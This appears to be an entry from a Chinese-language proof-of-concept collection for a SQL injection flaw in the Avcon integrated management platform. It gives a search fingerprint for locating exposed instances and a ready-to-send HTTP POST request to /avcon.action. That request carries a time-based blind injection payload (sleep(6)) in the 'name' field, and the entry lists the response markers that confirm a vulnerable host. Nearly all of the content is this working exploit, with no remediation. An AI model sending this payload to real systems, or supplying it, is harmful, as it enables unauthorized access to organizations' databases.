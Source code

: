 ﻿# Avcon综合管理平台SQL注入漏洞

> 更新时间：2023-12-07

> 漏洞编号：

> 漏洞说明：Avcon综合管理平台 avcon接口name参数存在sql注入，可拼接执行延迟语句。

> 漏洞特征：title="AVCON-系统管理平台" || "/avcon.action"

> 验证脚本：HTTP

```
POST /avcon.action HTTP/1.1
Connection: close
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate, br

name=0'XOR(if(now()=sysdate()%2Csleep(6)%2C0))XOR'Z&password=u]H[ww6KrA9F.x-F
```

> 响应代码特征：200

> 响应内容特征：登录失败

> 上传文件定位：

> 验证文件来源：Avcon综合管理平台SQL注入漏洞.poc
